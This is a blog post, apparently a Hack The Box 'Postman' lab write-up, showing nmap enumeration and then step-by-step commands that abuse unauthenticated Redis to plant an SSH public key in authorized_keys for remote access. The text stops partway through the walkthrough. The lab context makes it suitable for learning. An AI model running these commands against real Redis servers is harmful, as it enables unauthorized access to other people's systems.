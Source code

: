 ```yaml
---
layout: post
title: Postman
category: HTB
tags: [HTB, Redis, Metasploit]
---
```


![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/card.PNG "Postman")

Starting with nmap we can see some valuable output.
**-p-** to scan all 65535 ports and **-sV** for standard service detection:

![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/nmap.png "Nmap")

We are most likely going to interact with SSH since the port is open. 💁‍♂️

I tried couple exploits for Webmin but apparently they are not working without valid credentials.

After poking Redis service for a while I came up to a great guide/cheatsheet for pentesting Redis: <https://book.hacktricks.xyz/pentesting/6379-pentesting-redis>

"Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache and message broker. Several times redis will be configured to be accessible anonymously. In this case you won't need to use any username and password." Sounds great!

Install redis-tools: `sudo apt-get install redis-tools` and to interact with Redis: `redis-cli -h <IP>`

1. Generate a ssh public-private key pair on your pc: `ssh-keygen -t rsa`
2. Write the public key to a file: `(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt`
3. Import the file into redis: `cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit`
4. Save the public key to the **authorized_keys** file on redis server:

![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/redis.png "Redis")
